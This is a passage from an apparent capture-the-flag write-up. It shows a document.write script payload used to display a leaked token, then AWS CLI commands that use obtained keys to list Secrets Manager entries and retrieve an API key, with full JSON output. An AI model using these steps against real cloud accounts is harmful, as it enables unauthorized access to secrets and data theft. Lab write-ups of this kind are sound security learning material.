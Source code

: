 But i faced an issue where the token went out of bounds 

<img width="976" height="80" alt="image" src="https://github.com/user-attachments/assets/1938887c-1fec-4c0a-8e32-08819cd5dc3c" />

so I changed the font size to 1px with 

```
document.write('<style>body{font-size:1px}</style>' + this.responseText);
```

<img width="953" height="30" alt="image" src="https://github.com/user-attachments/assets/ae9b2cee-4e05-4e97-af5b-3817ccb06c14" />


Now it was finally time to download aws on my powershell.

So I set my keys with aws configure in powershell and I followed this [website](https://medium.com/legionhunters/hacking-the-cloud-unveiling-secrets-in-aws-ctf-challenges-5edc9259688c) and copied their commands they used in a challenge and prayed they work.

After trying a bunch of commands, 

```
aws secretsmanager list-secrets
```
worked and gave me

```
{
    "SecretList": [
        {
            "ARN": "arn:aws:secretsmanager:ap-southeast-1:533267020068:secret:internal_web_api_key-mj8au2-U5o6lT",
            "Name": "internal_web_api_key-mj8au2",
            "Description": "To access internal web apis",
            "LastChangedDate": "2025-09-24T01:06:33.419000+08:00",
            "LastAccessedDate": "2025-09-28T08:00:00+08:00",
            "SecretVersionsToStages": {
                "terraform-20250923170633383800000003": [
                    "AWSCURRENT"
                ]
            },
            "CreatedDate": "2025-09-24T01:06:31.528000+08:00"
        }
    ]
}
```

I could then get the value with 

```
aws secretsmanager get-secret-value --secret-id internal_web_api_key-mj8au2
```

and it gives me

```
{
    "ARN": "arn:aws:secretsmanager:ap-southeast-1:533267020068:secret:internal_web_api_key-mj8au2-U5o6lT",
    "Name": "internal_web_api_key-mj8au2",
    "VersionId": "terraform-20250923170633383800000003",
    "SecretString": "{\"api_key\":\"Uqv2JgVFhKtTsNUTyeqDkmwcjgWrar8s\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2025-09-24T01:06:33.415000+08:00"
}
```
